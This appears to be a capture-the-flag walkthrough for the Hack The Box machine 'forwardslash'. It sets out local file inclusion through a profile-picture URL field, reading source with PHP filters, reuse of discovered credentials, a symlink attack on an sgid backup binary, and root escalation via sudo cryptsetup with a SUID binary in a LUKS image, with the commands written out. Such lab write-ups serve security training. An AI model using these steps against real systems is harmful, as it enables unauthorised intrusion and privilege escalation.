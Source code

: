 # user:
  - nmap directory for initial scans, only 22 and 80 open
  - Website redirects you to 'forwardslash.htb', so add that to /etc/hosts
  - A lot of enumeration
    - Tried fuzzing for ".php" to no avail
    - Nothing from dirb
  - Found '/note.txt'
    - References that they still have 'the backup site'
  - Add 'backup.forwardslash.htb' to /etc/hosts and visit the site
    - It's a login page!
  - You can make an account and login
  - Changing your profile picture still works (just have to remove disabled tags in HTML)
    - Setup an HTTP server locally and see if it grabs a file from there
    - Looks like it's catting out the file that you send it
    - Probably uses 'file_get_contents' to get the file, but this means we can also get a local file -> LFI
    - Found /etc/passwd
    - Users: pain, chiv, www-data, root
  - When you send 'url=./index.php', it says 'Permission Denied; not that way ;)'
  - Found user 'pain' because the login message indicates it's not a valid password, and 'admin' isn't a valid user
    - password is 'password'
  - Found '/dev/' with gobuster for the backup subdomain -> access denied and then it prints my IP
  - Found full directory of the backup site: '/var/www/backup.forwardslash.htb/welcome.php'
    - Can use PHP base64 filters to read the file and save results (backup directory)
  - Found creds in 'dev.api.php' for chiv
  - SSH in as chiv
  - Found a sgid binary called 'backup' that will grab a file as pain
    - We want to grab the '/var/backups/config.php.bak' because there's a note indicating that a password is there
    - RE the binary to figure out how to exploit it, essentially hashing the current time and then creating a sym link to that file, so it'll print out it's contents
    - 'sgid/exp.sh'
  - Found the DB pw -> try cred stuffing?
  - It's their SSH pw -> SSH in as pain
  - user pwned

# root:
  - See you can run a bunch of 'cryptsetup' commands with 'sudo -l' -> do some reading up
  - Create an encrypted volume with a C program that has the SUID bit set and is owned by root, this will translate over to the same permissions when you mount it on the server
  - This gives you the ability to escalate to root and get a shell
  - Here are the commands to reproduce: Do this LOCALLY and then SFTP it over to the box
    - [Source](https://elephly.net/posts/2013-10-01-dm-crypt.html)
    - ```dd if=/dev/urandom bs=1M count=100 of=~/pwn.img```
    - ```sudo cryptsetup luksFormat ~/pwn.img```
    - ```sudo cryptsetup luksOpen ~/pwn.img backup```
    - ```sudo mkfs.ext4 /dev/mapper/backup```
    - ```mkdir ~/mnt_point```
    - ```sudo mount /dev/mapper/backup ~/mnt_point```
    - ```cd root```
    - ```make```
    - ```cp exp ~/mnt_point```
    - ```sudo umount ~/mnt_point```
    - ```sudo cryptsetup luksClose backup```
  - Then sftp the created image (with your malicious binary)
  - ```sudo /sbin/cryptsetup luksOpen pwn.img backup```
  - ```mkdir mnt```
  - ```sudo /bin/mount /dev/mappers/backup ./mnt/```
  - ```cd mnt && ./exp```
  - Now you have a root shell
  - root pwned

